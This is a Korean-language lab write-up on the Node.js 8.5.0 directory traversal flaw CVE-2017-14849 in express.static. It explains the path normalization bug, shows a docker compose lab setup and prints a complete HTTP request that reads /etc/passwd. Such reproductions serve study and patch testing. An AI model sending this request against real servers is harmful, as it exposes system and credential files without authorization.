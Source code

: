 # Node.js 디렉터리 탐색 취약점(CVE-2017-14849)

## 취약점 개요

Node js 8.5.0에서는 `파일 경로 정규화(Path Normalization)` 취약점이 있습니다. 상위 레이어(예: ../../../../../../etc/passwd)로 이동하는 중에 바르지 못한 폴더가 있는 경우 (예: ../../../foo/../../../etc/passwd) 오류가 발생해야 하지만 `파일 경로 정규화(Path Normalization)` 취약점으로 인해 `/etc/passwd`의 결과를 반환하게 됩니다.

Express와 같은 웹 프레임워크는 일반적으로 정적 파일을 제공하기 위해 `express.static()`를 사용합니다. 이러한 함수는 내부적으로 경로 정규화를 수행하면서 디렉터리의 범위를 초과하는지 여부를 확인합니다. 그러나 Node js 8.5.0 버전의 경우 위 버그로 인해 정규화 함수가 잘못된 결과를 반환하고 디렉터리 탐색 취약점이 발생합니다.

해당 버그는 디렉터리를 단순 탐색하는 것 이상의 영향을 미칠 수 있으므로 더 깊이 조사할 필요가 있습니다. 그러나 이 취약점은 Node js 8.6.0에서 수정되었기 때문에 영향의 범위가 제한됩니다.

## 환경 실행

다음의 명령어를 통해 테스트 환경을 구성함.

```
docker compose up -d
```

`http://your-ip:3000/`으로 접속할 수 있습니다.
![1](https://github.com/junwonheo/junwonheo.github.io/assets/129061707/5dfcff9a-8a77-48d0-9238-09dc5a6c35ff)

`/static/main.js`에 정적 파일이 존재합니다. 아래와 같은 패킷을 보내겠습니다.

```asdasdsa
GET /static/../../../a/../../../../etc/passwd HTTP/1.1
Host: your-ip:3000
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

![2](https://github.com/junwonheo/junwonheo.github.io/assets/129061707/2bc0b8f2-f53f-4693-890a-657f7c378317)
